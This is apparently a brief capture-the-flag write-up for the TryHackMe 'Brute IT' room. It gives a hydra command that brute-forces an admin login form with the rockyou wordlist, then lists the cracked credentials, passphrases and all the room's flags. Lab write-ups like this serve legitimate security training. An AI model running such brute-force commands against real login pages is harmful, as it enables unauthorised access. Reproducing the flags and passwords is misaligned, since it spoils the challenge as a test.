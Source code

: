 #TryHackMm Brute IT

Saikat Karmakar | Nov 9:2020 

Task 1 & Task 2 easy basic deploy & namp scan.

#Task 3
1.What is the user:password of the admin panel?
command:
hydra -l admin -P ~/Desktop/rockyou.txt -t 32 10.10.212.227 http-post-form "/admin/:user=^USER^&pass=^PASS^:F=invalid" -V
```
admin:xavier

```
2.Crack the RSA key you found.What is John's RSA Private Key passphrase?
```
rockinroll
```
THM{brut3_f0rce_is_e4sy} // a flag in the RSA page
3.user.txt
```
THM{a_password_is_not_a_barrier}
```
3.root password
```
football
```
3.root flag.txt
```
THM{pr1v1l3g3_3sc4l4t10n}

```

